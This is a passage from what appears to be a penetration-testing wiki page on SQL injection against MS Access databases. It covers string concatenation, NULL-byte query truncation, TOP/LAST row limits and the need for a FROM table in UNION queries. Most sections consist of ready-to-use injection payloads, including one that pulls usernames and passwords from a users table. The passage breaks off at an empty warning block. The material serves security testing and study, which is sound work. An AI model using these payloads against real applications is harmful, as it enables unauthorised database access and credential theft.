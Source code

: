 # MS Access SQL Injection


## Online Playground

- [[https://www.w3schools.com/sql/trysql.asp?filename=trysql_func_ms_format&ss=-1|https://www.w3schools.com/sql/trysql.asp?filename=trysql_func_ms_format&ss=-1]]

## DB Limitations

### String Concatenation

String concatenation is possible with `& (%26)` and `+ (%2b)` characters.

```sql
1' UNION SELECT 'web' %2b 'app' FROM table%00
1' UNION SELECT 'web' %26 'app' FROM table%00
```
```
### Comments

There are no comments in MS access, but apparently it's possible to remove the last of a query with a NULL char:

```sql
1' union select 1,2 from table%00
```
```
If this is not working you could always fix the syntax of the query:

```sql
1' UNION SELECT 1,2 FROM table WHERE ''='
```
```
### Stacked Queries

They aren't supported.

### LIMIT

The **`LIMIT`** operator **isn't implemented**. However, it's possible to limit SELECT query results to the **first N table rows using the `TOP` operator**. `TOP` accepts as argument an integer, representing the number of rows to be returned.

```sql
1' UNION SELECT TOP 3 attr FROM table%00
```
```
Just like TOP you can use **`LAST`** which will get the **rows from the end**.

## UNION Queries/Sub queries

In a SQLi you usually will want to somehow execute a new query to extract information from other tables. MS Access always requires that in **subqueries or extra queries a `FROM` is indicated**.\
So, if you want to execute a `UNION SELECT` or `UNION ALL SELECT` or a `SELECT` between parenthesis in a condition, you always **need to indicate a `FROM` with a valid table name**.\
Therefore, you need to know a **valid table name**.

```sql
-1' UNION SELECT username,password from users%00
```
```
### Chaining equals + Substring

> [!WARNING]
```